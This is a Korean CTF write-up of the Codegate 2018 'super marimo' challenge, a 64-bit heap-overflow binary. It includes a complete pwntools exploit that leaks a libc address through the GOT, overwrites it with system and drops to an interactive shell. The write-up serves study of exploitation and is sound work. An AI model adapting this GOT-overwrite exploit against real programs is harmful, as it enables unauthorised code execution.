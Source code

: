 ```yaml
---
layout: post
title: ! '[Codegate2018 CTF] super marimo writeup'
excerpt_separator: <!--more-->
tags:
  - KRater
  - CTF
  - Write-up
---
```


올해 초 CTF에서 열심히 삽질했던 문제...지만 결국 못 풀었다. 최근 h3x0r CTF 문제들을 풀어보면서 힙 문제에 관심이 생겼는데, 갑자기 이 문제가 기억이 나서 서버 한구석에 던져져 있던걸 주섬주섬 꺼내서 풀어보았다. 그래도 그동안 공부한 성과인지 풀 수 있었다 감동! ㅠㅡㅠ

<!--more-->

## 개요

원래 대회에서는 libc도 있었던거같은데 기억 안난다.. 그냥 로컬 환경에서만 익스할 수 있게 했다.

> root@ubuntu:~/CTF/Codegate2018/SuperMarimo.d# file marimo 
>
> marimo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=45e9b4d54ca35be0defe243f0f8a4982bbac82dc, stripped

64비트 바이너리다. 문제를 분석해보면 마리모를 사고 팔 수 있는 프로그램인데, 처음에 돈이 0원이라서 마리모를 못 산다. 그런데 커맨드를 입력할 때 `show me the marimo`를 입력하면, 치트키처럼 마리모를 하나 공짜로 얻을 수 있다.

## 접근

원래는 `sell marimo` 명령이 인덱스를 검사하지 않고, 해당 영역을 해제하지 않아서 (또는 안에 있는 값이 해제된 값인지 검사하지 않아서) `number of marimo` 카운트가 음수가 될 수 있으며, 마리모 판매시에 주소값을 덮어쓰는 형식으로 GOT & PLT 영역을 덮어쓸 수 있음에 주목했었다. 그러나 값을 leak하기가 어렵고, 정확하게 해당 영역만 조작하기가 꽤 어려워서 그만뒀다.

![]({{ site.baseurl }}/images/KRater/2018-07-03-super-marimo-writeup/pic01.PNG)

그 다음, profile 수정 시에 마리모의 size (*32) 만큼 값을 써줄 수 있는데, 마리모가 시간에 따라 자라기 때문에 쓸 수 있는 값이 점점 증가하는 점에 주목하였다. 마리모는 자라서 프로필 작성을 더 크게 해줄 수 있는데, 영역이 고정되어 있어서 생기는 문제점이다. 해당 취약점을 바탕으로 익스플로잇 코드를 작성하였다.

## 익스플로잇

```python
from pwn import *

global r

PROCESS = "./marimo"
r = process(PROCESS)

def main () :
	r.recvuntil(">> ")

	show_me ("marimo1", "profile1")
	show_me ("vuln", "AAAA")

	sleep(3)

	modify (0, "A"*40 + "B"*8 + "C"*8 + p64(0x603040)*2)
	strcmp_addr = leak()
	system_addr = strcmp_addr - 0x5A1E0
	
	log.info("strcmp : " + hex(strcmp_addr))
	log.info("system : " + hex(system_addr))

	modify(1, p64(system_addr) + p64(system_addr))
	
	r.interactive() # /bin/sh

def modify (index, profile) :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline(str(index))
	r.recvuntil(">> ")
	r.sendline("M") # [M]odify
	r.recvuntil(">> ")
	r.sendline(str(profile)) # new profile
	r.recvuntil(">> ")
	r.sendline("B") # [B]ack
	r.recvuntil(">> ")

def leak () :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline("1")
	r.recvuntil("name : ")
	data = r.recv(6) + "\x00\x00"

	r.recvuntil(">> ")
	r.sendline("B")
	r.recvuntil(">> ")
	return u64(data)

def buy (size, name, profile) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(size))
	r.recvuntil(">> ")
	r.sendline("P") # [P]ay
	r.recvuntil(">> ")
	r.sendline(str(name))
	r.recvuntil(">> ")
	r.sendline(str(profile))
	r.recvuntil(">> ")

def show_me (name, profile) :
	r.sendline("show me the marimo")
	r.recvuntil(">> ")
	r.sendline(name)
	r.recvuntil(">> ")
	r.sendline(profile)
	r.recvuntil(">> ")
	print ("show me done. id : " + name)

def sell (num) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(num))
	r.recvuntil("?")
	r.sendline("S")
	r.recvuntil(">> ")
	print ("Sell done.")

if __name__ == '__main__' :
	main()

```

재밌는 문제였지만 추후에 출제자분께 여쭤보니 다른 `intended solution`이 있다고 한다.

해당 방법을 사용해서 나중에 다시 풀어봐야 겠다!
